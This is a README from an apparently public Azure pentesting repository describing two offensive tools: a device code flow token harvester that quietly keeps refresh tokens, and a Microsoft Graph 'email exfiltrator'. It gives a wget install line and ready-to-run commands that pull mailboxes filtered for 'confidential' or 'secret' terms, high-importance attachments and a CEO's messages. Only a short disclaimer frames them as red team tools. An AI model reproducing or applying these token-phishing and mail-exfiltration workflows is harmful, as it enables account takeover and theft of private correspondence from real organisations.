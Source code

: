 # Azure
Azure Pentesting Resource


---

# Scripts

# token_polling.ps1

## Azure AD Device Code Authentication Token Harvester

A PowerShell script that demonstrates automated token acquisition using the Azure AD device code flow authentication. The script targets Microsoft's authentication endpoints to obtain access and refresh tokens that can be used for various Microsoft services (Graph API, Azure Resource Manager, etc.).

## Features
- Implements the complete OAuth 2.0 device code flow
- Automatically handles device code request and token polling
- Configurable resource endpoint targeting (Graph API, Azure RM, etc.)
- Built-in error handling and timeout management
- Retrieves both access and refresh tokens
- Uses the Azure PowerShell client ID for broad API access

## How it Works
1. Requests a device code from Azure AD's OAuth endpoint
2. Displays authentication URL and user code for sign-in
3. Continuously polls the token endpoint while waiting for user authentication
4. Upon successful authentication, retrieves and outputs the access token
5. Silently stores the refresh token for potential reuse

## Usage
The script defaults to Microsoft Graph API but can be modified to target other Microsoft API endpoints by changing the `$resource` variable:
- Microsoft Graph: `https://graph.microsoft.com`
- Azure Resource Manager: `https://management.azure.com/`
- Classic Azure Management: `https://management.core.windows.net/`

---

# exfil_exchange_email.py

## Microsoft Graph Email Exfiltrator

A Python script that leverages Microsoft Graph API access tokens to retrieve and save emails from Exchange Online/Microsoft 365 mailboxes. The script provides flexible email extraction capabilities with advanced filtering options for precise targeting.

### Features
- Automated email content extraction using Microsoft Graph API
- Complete mailbox access with token authentication
- Saves email bodies, attachments, and metadata
- Organized directory structure for extracted data
- Advanced filtering capabilities:
  - Content-based search
  - Date ranges
  - Sender/recipient filtering
  - Importance levels
  - Attachment presence and types
  - Size-based filtering
  - Term exclusion
- Handles rate limiting and pagination
- Proper error handling and recovery

### Requirements
- Python 3.x
- Required packages:
  ```
  requests
  ```

### Installation
```bash
wget https://raw.githubusercontent.com/0xG00S3/Azure/refs/heads/main/exfil_exchange_email.py
```

### Usage

#### Basic Usage
Pull all emails from inbox:
```bash
python3 exfil_exchange_email.py --token "your_graph_api_token"
```

#### Advanced Filtering Examples

1. Search for sensitive documents:
```bash
python3 exfil_exchange_email.py --token "your_token" \
--query "confidential,secret,internal" \
--has-attachments \
--importance "high"
```

2. Target date ranges with specific attachment types:
```bash
python3 exfil_exchange_email.py --token "your_token" \
--start-date "2024-01-01" \
--end-date "2024-03-01" \
--attachment-types ".pdf,.docx" \
--min-size 1000000
```

3. Filter by sender and exclude terms:
```bash
python3 exfil_exchange_email.py --token "your_token" \
--from-address "ceo@company.com" \
--exclude-terms "newsletter,automated" \
--max-emails 100
```

#### Available Arguments
```bash
--token Required. Microsoft Graph API token
--output Output directory (default: exfiltrated_emails)
--query Search terms (comma-separated)
--max-emails Maximum number of emails to retrieve
--folder Mailbox folder to search (default: inbox)
--start-date Start date (YYYY-MM-DD)
--end-date End date (YYYY-MM-DD)
--from-address Filter by sender email
--to-address Filter by recipient email
--importance Filter by importance (high/normal/low)
--has-attachments Filter for emails with attachments
--attachment-types Attachment extensions to filter (e.g., .pdf,.docx)
--exclude-terms Terms to exclude (comma-separated)
--min-size Minimum email size in bytes
--max-size Maximum email size in bytes
```

#### Output Structure
```bash
exfiltrated_emails/
├── YYYYMMDD_HHMMSS_EmailSubject1/
│ ├── body.html
│ ├── metadata.json
│ └── attachments/
│ ├── document1.pdf
│ └── document2.docx
├── YYYYMMDD_HHMMSS_EmailSubject2/
│ ├── body.txt
│ └── metadata.json
```

#### Notes
- Requires a valid Microsoft Graph API token with Mail.Read permissions
- Rate limiting is handled automatically with exponential backoff
- Attachments are saved in their original format
- HTML emails preserve their formatting
- All metadata is saved in JSON format for easy parsing

#### Disclaimer
This tool is intended for authorized security testing and red team operations only. Ensure you have proper authorization before using this tool against any target systems.


---

Everything in this repository is to be used for educational purposes only.






















